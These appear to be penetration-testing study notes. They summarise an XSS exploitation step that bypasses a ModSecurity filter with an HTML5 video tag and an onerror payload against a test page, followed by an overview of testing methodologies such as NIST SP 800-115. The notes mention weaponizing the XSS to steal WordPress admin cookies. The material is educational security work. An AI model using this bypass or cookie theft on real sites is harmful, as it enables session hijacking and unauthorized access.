 Finally, after discovering and analyzing a vulnerability, we move on to the actual attack, leveraging our PoC to gain unauthorized access or perform other malicious activities. If successful, this stage results in the exploitation of the target application.

#### Exploitation Summary (Technical Parts)

1. **Approach**:
   * Consider using known bypasses from online sources or study Mod\_Security rules, typically OWASP core ruleset.
2. **Configuration File Analysis**:
   *   Discovered `img` tag is filtered:

       ```html
       [...] h1|head|hr|html|i|iframe|ilayer|img|input|ins|isindex|kdb [...]
       ```
   * Noted `video` tag, an HTML5 element, is not filtered.
3. **Bypass Attempt with `video` Tag**:
   *   Constructed XSS vector:

       ```html
       <video src=x onerror=alert(1)>
       ```

       URL: `https://onofri.org/security/test.php?param=<video%20src=x%20onerror=alert(1)>`
4. **Exploitation Confirmation**:
   *   Observed successful alert message indicating XSS:

       ```html
       <p id=echoed>
       <video src=x onerror=alert(1)>
       </p>
       ```
5. **Further Actions**:
   * Exploited XSS by executing arbitrary JavaScript code.
   * Potential to weaponize XSS to steal WordPress admin cookies for further penetration testing.

## Methodologies and Frameworks Summary

**Security Methodologies Overview:**

* Security methodologies define what, who, when, and where testing is conducted, involving detailed processes and steps.
* Effective security testing combines various methodologies for comprehensive coverage.

**Key Methodologies:**

1.  **NIST SP 800-115:**

    * _Technical Guide to Information Security Testing and Assessment._
    * Process: Discovery (Information Gathering, Vulnerability Analysis), Attack (Gaining Access), and Reporting.
    * Emphasizes black box testing for critical components and includes white and gray box techniques.


